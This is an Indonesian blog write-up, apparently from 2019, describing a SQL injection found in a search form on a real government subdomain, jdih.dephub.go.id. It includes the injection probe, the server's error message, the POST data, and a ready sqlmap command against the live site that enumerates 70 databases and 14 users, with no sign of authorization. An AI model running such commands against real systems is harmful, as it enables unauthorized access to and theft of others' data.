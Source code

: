 ```yaml
---
title: SQL Injection - Subdomain dephub.go.id
date: 2019/10/21
description: Write Up SQL Injection di website dephub.go.id
tag: Write Up
author: You
---
```


Halo :D
Kembali lagi bersama saya :D
Kali ini saya ingin menjelaskan bagaimana saya bisa menemukan BUG SQL Injection pada Subdomain dephub.go.id ?
Let’s go!

![ ](https://miro.medium.com/max/24000/1*J6bG2_ibqeA_lodHkh452Q.png)

Ketika saya mencoba untuk mencari point inject nya, saya berpikir untuk mencari di kolom pencarian peraturan. Maka saya memasukkan input single quote (‘) pada kolom pencarian peraturan. Dan respons nya setelah saya input adalah

![ ](https://miro.medium.com/max/2400/1*hr9EiGPmSCHbaXuqYVpOLg.png)

```
Respons
“ You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ‘%’ OR title like ‘%’%’ ) AND `state` IS NOT NULL ORDER BY `created` desc’ at line 3 “
```

Sesudah Saya mendapatkan pesan error setelah memasukkan single quote (‘), lanjut Saya mencari post datanya menggunakan Live Http Header di Mozilla Firefox atau ke inspect element lalu ke bagian network. Berikut Post Data yang sudah Saya dapatkan

![ ](https://miro.medium.com/max/463/1*w4kGZXasP_gvD1-UezER4A.png)

Post Data: s=’&jenis_peraturan=0&nomor=&tahun=0
___

Selanjutnya saya Melakukan Scan di SQL Map Dengan Command

```
sqlmap.py -u “http://jdih.dephub.go.id/pencarian” — data=”s=’&jenis_peraturan=0&nomor=&tahun=0” — dbs
```

Hasil dari scannya adalah

![ ](https://miro.medium.com/max/2400/1*XD9FX5AbncHuhF1iDMM1rQ.png)

![ ](https://miro.medium.com/max/2400/1*hIdIwIYqVIJz2I0IGkcvzw.png)

available databases [70]
database management system users [14]

![ ](https://miro.medium.com/max/24000/1*i5PboXm1R4eSyhIew8VKwg.png)

Oke itu saja write up sederhana dari saya, Terima kasih sudah membaca write up saya ini. Jangan lupa share yaa, agar saya semangat untuk memberikan write up lagi :D

Contact me at [rafteday.net/about](https://buayalaut.co/about)